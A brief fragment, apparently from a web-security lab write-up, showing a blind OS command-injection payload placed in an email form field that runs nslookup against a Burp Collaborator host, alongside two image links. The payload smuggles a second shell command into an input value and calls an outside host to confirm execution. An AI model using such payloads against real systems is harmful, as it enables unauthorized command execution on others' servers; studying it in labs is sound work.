 paylaod:

```javascript
email=||+nslookup+quofukvwbhd4atyo5xbbkmfudljb70.burpcollaborator.net+||
```



![](images/E187CCAA9FEF402586B18EFE50293A63clipboard.png)

